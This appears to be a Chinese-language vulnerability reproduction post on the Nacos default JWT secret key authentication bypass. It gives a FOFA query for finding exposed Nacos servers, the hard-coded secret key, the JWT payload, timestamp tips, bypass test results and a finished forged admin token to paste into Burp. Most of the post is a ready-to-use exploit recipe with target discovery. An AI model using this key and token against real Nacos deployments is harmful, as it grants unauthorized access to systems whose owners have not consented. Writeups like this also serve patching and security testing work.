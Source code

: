 
--- 
title:  Nacos漏洞总结复现 
tags: []
categories: [] 

---
#### Nacos漏洞总结复现

#### 一、Nacos默认key导致权限绕过登陆

##### 0x00 漏洞描述

Nacos中发现影响Nacos &lt;= 2.1.0的问题，Nacos用户使用默认JWT密钥导致未授权访问漏洞。 通过该漏洞，攻击者可以绕过用户名密码认证，直接登录Nacos用户

##### 0x01 漏洞影响

0.1.0 &lt;= Nacos &lt;= 2.2.0

##### 0x02 漏洞搜索

fofa：app=“NACOS”

##### 0x03 漏洞复现

在nacos中，token.secret.key值是固定死的，位置在conf下的application.properties中：

nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789

 1.获取token

利用该默认key可进行jwt构造，直接进入后台，构造方法： 在中：输入默认key：

SecretKey012345678901234567890123456789012345678901234567890123456789

然后再payload里面输入：

{

“sub”: “nacos”,

“exp”: 1678899909

}

在这里注意：1678899909这个值是unix时间戳，换算一下，要比你系统当前的时间更晚，比如当前的时间是2023年03月15日22:11:09，在这里面的时间戳时间是3月16号了：

注意：

以下是伪造JWT值绕过权限的测试结果

1、延长时间戳，POST 密码错误，用户名正确 ✅

2、延长时间戳，POST 密码错误，用户名错误 ✅

3、删除时间戳，POST 密码错误，用户名错误 ✅

复制上面得到的值，在burp里面选择登录之后构造：

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s

